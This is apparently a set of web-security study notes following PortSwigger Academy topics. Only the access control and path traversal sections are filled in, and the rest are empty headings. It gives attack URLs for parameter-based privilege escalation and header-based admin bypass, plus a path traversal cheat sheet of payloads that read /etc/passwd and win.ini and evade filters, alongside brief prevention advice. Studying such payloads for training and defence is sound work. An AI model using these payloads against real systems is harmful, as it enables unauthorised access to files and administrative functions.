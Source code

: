 # Server-Side Topics

---

## [Access control](https://portswigger.net/web-security/access-control)

> 🔬 [Labs - Access control vulnerabilities](https://portswigger.net/web-security/all-labs#access-control-vulnerabilities)
>
> 🔗 [Access control security models](https://portswigger.net/web-security/access-control/security-models)

**Access control** - authorize users/processes to perform actions and access resources.

- **Authentication** - the users is who they say they are
- **Session management** - identify the subsequent HTTP requests made by that user
- **Access control** - the user's action is allowed or not 
- [Access control Security models](https://portswigger.net/web-security/access-control/security-models)

**Broken access control** are common critical security vulnerabilities:

- Vertical - restrict access to application sensitive functions to specific types of users (`e.g.` An admin can modify/delete any user's data/account; An ordinary user cannot)
- Horizontal - restrict access to resources to specific users (`e.g.` Different users have access to resources of the same type)
- Context-dependent - restrict access to functionality and resources base upon the app's state and user's interaction with it (`e.g.` A user cannot perform actions in the wrong order)

**Vertical privilege escalation** - a user gains access to functionalities that are not permitted to access.

`e.g.`

The admin page can be accessed by browsing to the relevant admin URL. In some cases the admin URL is disclosed in locations such as `/robots.txt` file, or by using a wordlist brute-force attack.

- Obscuring sensitive features with unpredictable URLs, often termed *security by obscurity* is not reliable for access control. Users can still find these URLs through various means, like inadvertent disclosure in role-based JavaScript.
- Access control decisions in certain applications are based on user access rights or roles determined at login, stored in user-controllable locations such as hidden fields, cookies, or preset query string parameters. These parameters can be easily modified.
- Platform misconfiguration can cause broken access control, where applications restrict access to **URLs** and **HTTP methods** based on user roles.
  - Overriding URLs with non-standard HTTP headers such as `X-Original-URL` and `X-Rewrite-URL`, can lead to bypassing access controls. Rule e.g. - `DENY: POST, /admin/deleteUser, managers`
  - The flexibility of HTTP methods can be exploited, such as using `GET` instead of the restricted method, to bypass platform-level access controls enforced based on URLs and methods.
  - Websites may interpret request paths differently, potentially causing access control URL-matching discrepancies, like treating `/admin/deleteUser` and `/admin/deleteUser/` as separate endpoints, which can be exploited to bypass controls.


### 🎯 Attack

```bash
https://insecure-website.com/robots.txt
https://insecure-website.com/admin

# Parameter-based access control
https://insecure-website.com/login/home.jsp?admin=true
https://insecure-website.com/login/home.jsp?role=1

# Platform misconfiguration broken access control
POST / HTTP/1.1
X-Original-URL: /admin/deleteUser


```

### 🛡️ Prevention



### 🔬 Labs



### 📝 CheatSheet



---

## [API testing](https://portswigger.net/web-security/api-testing)




---

## [Authentication](https://portswigger.net/web-security/authentication)




---

## [Business logic vulnerabilities](https://portswigger.net/web-security/logic-flaws)




---

## [File upload vulnerabilities](https://portswigger.net/web-security/file-upload)




---

## [Information disclosure](https://portswigger.net/web-security/information-disclosure)




---

## [NoSQL Injection](https://portswigger.net/web-security/nosql-injection)




---

## [OS command injection](https://portswigger.net/web-security/os-command-injection)




---

## [Path traversal](https://portswigger.net/web-security/file-path-traversal)

> 🔬 [Labs - Path Traversal](https://portswigger.net/web-security/all-labs#path-traversal)
>
> 🔗 [HackTricks - File Inclusion/Path traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
>
> 📌 [PayloadsAllTheThing - Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)
>
> 📌 [omurugur - Path_Travelsal_Payload_List](https://github.com/omurugur/Path_Travelsal_Payload_List)

**Path traversal** (**directory traversal**) - read arbitrary files on a server running an application.

- Read/Write arbitrary files on the server
- Modify the app
- Take full control of the server

`e.g.` 

Loading an image on a HTML website with `<img src="/loadImage?filename=218.png">` means the server reads the file `218.png` from the `/var/www/images/` directory.

### 🎯 Attack

```bash
# Linux
https://insecure-website.com/loadImage?filename=../../../etc/passwd

# Win
https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini
```

- This will make the app read the `/var/www/images/../../../etc/passwd` path that means `/etc/passwd` will be actually read.

**Defenses** like stripping or blocking directory traversal sequences, can be bypassed with:

- an **absolute path** (direct reference to a file) from the filesystem root directory - `filename=/etc/passwd`
- nested traversal sequences - `....//`, `....\/`
- (double) **URL encoding** the `../` characters  - `%2e%2e%2f`, `%252e%252e%252f`
- base folder followed by traversal sequences - `filename=/var/www/images/../../../etc/passwd`
- extension at the end, with URL encoded null byte to terminate string - `filename=../../../etc/passwd%00.png`

### 🛡️ Prevention

- Avoid passing user-supplied input to filesystem APIs or
  1. Validate user input (for permitted content/values, whitelist)
  2. Append the input to the base directory. [Canonicalize the path](https://www.geeksforgeeks.org/difference-between-getpath-and-getcanonicalpath-in-java/) and verify it starts with the expected directory

### 🔬 Labs

> 🔬 [Lab: File path traversal, simple case](../all-labs/README.md#simple-case)
>
> 🔬 [Lab: File path traversal, traversal sequences blocked with absolute path bypass](../all-labs/README.md#traversal-sequences-blocked-with-absolute-path-bypass)
>
> 🔬 [Lab: File path traversal, traversal sequences stripped non-recursively](../all-labs/README.md#traversal-sequences-stripped-non-recursively)
>
> 🔬 [Lab: File path traversal, traversal sequences stripped with superfluous URL-decode](../all-labs/README.md#traversal-sequences-stripped-with-superfluous-url-decode)
>
> 🔬 [Lab: File path traversal, validation of start of path](../all-labs/README.md#validation-of-start-of-path)
>
> 🔬 [Lab: File path traversal, validation of file extension with null byte bypass](../all-labs/README.md#validation-of-file-extension-with-null-byte-bypass)

### 📝 CheatSheet

```bash
# Path Traversal Cheatsheet
../../../etc/passwd
../../../../../../etc/passwd
....//....//....//etc/passwd
....\/....\/....\/etc/passwd
%2e%2e/%2e%2e/%2e%2e{FILE}
%252e%252e%252f{FILE}
%252e%252e%252f%252e%252e%252f%252e%252e%252f{FILE}

../../../windows\win.ini
..\..\..\windows\win.ini
```

---

## [Race conditions](https://portswigger.net/web-security/race-conditions)




---

## [Server-side request forgery (SSRF)](https://portswigger.net/web-security/ssrf)




---

## [SQL injection](https://portswigger.net/web-security/sql-injection)




---

## [XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)




---

